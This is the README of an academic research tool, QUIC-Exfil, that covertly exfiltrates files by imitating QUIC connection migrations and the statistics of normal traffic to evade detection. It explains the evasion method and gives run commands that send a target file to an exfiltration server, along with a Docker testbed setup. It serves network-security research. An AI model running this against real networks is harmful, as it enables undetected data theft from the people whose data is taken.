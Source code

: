 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![GitHub Repo stars](https://img.shields.io/github/stars/thomasgruebl/quic-exfil?style=plastic)
![GitHub forks](https://img.shields.io/github/forks/thomasgruebl/quic-exfil?style=plastic)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub License](https://img.shields.io/github/license/thomasgruebl/quic-exfil)

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#citation">Citation</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

QUIC-Exfil exploits the fact that QUIC allows changes in the underlying IP header, without requiring a new handshake. Therefore, from the perspective of an on-path observer, QUIC connection migrations are difficult to differentiate from potentially malicious traffic. If an adversary monitors the statistical properties of the QUIC traffic within a network, he/she can almost perfectly replicate the observable features of QUIC traffic, including a connection migration "fingerprint" and the traffic that follows.

The following figure depicts a QUIC-Exfil client-side Wireshark trace (without the required server-side acknowledgments). The second packet in the trace (highlighted in blue) represents the mimicked server-side connection migration to a new destination IP address, followed by various exfiltration payload packets. For illustration purposes, the exfiltration packets retain the same DCID as from the hijacked connection (packet #1). The inter-arrival times (i.e., time deltas) between the outgoing QUIC packets, as well as the payload sizes of the connection migration packet and the "normal" QUIC packets are sampled from a distribution of previously observed packets for the QUIC connection with DCID 29a3de9a9c2063bd0f65b34637234ece7cf876fa. Furthermore, the exfiltration payloads are encrypted using AES-256-CBC to match the entropy of typical encrypted traffic. This reduces the observable differences in legitimate QUIC traffic as compared to malicious exfiltration traffic.

![Alt text](images/wireshark.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## Citation

If you intend to use QUIC-Exfil, please cite the following publication:

--preliminary--

```text
@inproceedings{10.1145/3708821.3733872,
author = {Gr\"{u}bl, Thomas and Niu, Weijie and von der Assen, Jan and Stiller, Burkhard},
title = {QUIC-Exfil: Exploiting QUIC’s Server Preferred Address Feature to Perform Data Exfiltration Attacks},
year = {2025},
isbn = {798400714108},
publisher = {Association for Computing Machinery},
address = {New York, NY, USA},
url = {https://doi.org/10.1145/3708821.3733872},
doi = {10.1145/3708821.3733872},
booktitle = {Proceedings of the 20th ACM Asia Conference on Computer and Communications Security},
pages = {XXX–YYY},
numpages = {14},
keywords = {QUIC, Network Security, Data Exfiltration, Anomaly Detection},
location = {Hanoi, Vietnam},
series = {ASIA CCS '25}
}
```




## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.